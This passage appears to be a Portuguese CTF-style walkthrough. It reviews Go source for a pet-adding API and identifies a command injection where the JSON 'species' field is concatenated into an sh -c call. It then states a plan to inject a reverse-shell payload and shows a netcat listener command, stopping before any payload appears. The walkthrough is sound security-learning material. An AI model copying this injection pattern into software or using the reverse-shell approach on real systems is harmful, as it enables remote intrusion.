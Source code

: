     De acordo com esta função, se fizermos um pedido POST para este endpoint, podemos adicionar um animal de estimação. O código-fonte também revela a estrutura de um objeto Pet.
    
    ```
    type Pet struct {
     Name string `json:"name"`
     Species string `json:"species"`
     Characteristics string `json:"characteristics"`
    }
    ```
    
    Para adicionar um animal de estimação, precisamos enviar os dados no formato JSON, de acordo com o seguinte formato:
    
    ```
    {
     "name": "Test pet",
     "species": "dog",
     "characteristics": "corgi"
    }
    ```
    
    Depois chama a função `addpet()`
    
    ```
    func addPet(w http.ResponseWriter, r *http.Request) {
     <SNIP>
     addPet.Characteristics = loadCharacter(addPet.Species)
     Pets = append(Pets, addPet)
     w.WriteHeader(http.StatusOK)
     fmt.Fprint(w, "Pet was added successfully")
    }
    ```
    
    A função `addPet()` faz uma última chamada para `loadCharacter()` antes de adicionar o animal de estimação.
    
    ```
    func loadCharacter(species string) string {
     cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
     stdoutStderr, err := cmd.CombinedOutput()
     if err != nil {
     return err.Error()
     }
     return string(stdoutStderr)
    }
    ```
    
    Revisar esta função revela uma vulnerabilidade de injeção de código. Mais especificamente, "características do gato/"+espécie é usado como argumento para sh sem qualquer sanitização. Portanto, podemos criar um payload para obter um shell reverso e injetá-lo no campo de espécie dos dados Json.
    
    Primeiro, configuramos um ouvinte na nossa máquina local:
    
    `nc -lvnp 9001`
    